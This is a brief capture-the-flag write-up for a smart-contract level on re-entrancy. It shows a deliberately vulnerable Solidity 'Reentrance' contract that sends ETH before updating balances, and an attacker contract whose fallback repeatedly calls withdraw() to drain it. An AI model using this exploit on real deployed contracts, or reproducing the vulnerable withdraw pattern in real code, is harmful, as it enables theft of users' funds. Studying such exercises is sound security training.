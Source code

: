# **Level 10 -- Re-entrancy**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
---
## ***Objectives***
* Withdraw all the ETH in the contract
---
## ***Thought Process***
Use re-entrancy attck
---
## ***Solution***
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

contract ReAttacker {
    address public to;
    function deposit(address _to) external payable {
        to = _to;
        Reentrance(payable(to)).donate.value(msg.value)(address(this));
    } 

    function withdraw() external {
        Reentrance(payable(to)).withdraw(0.01 ether);
    }

    fallback() external payable {
        Reentrance(payable(to)).withdraw(0.01 ether);
    }
}
```




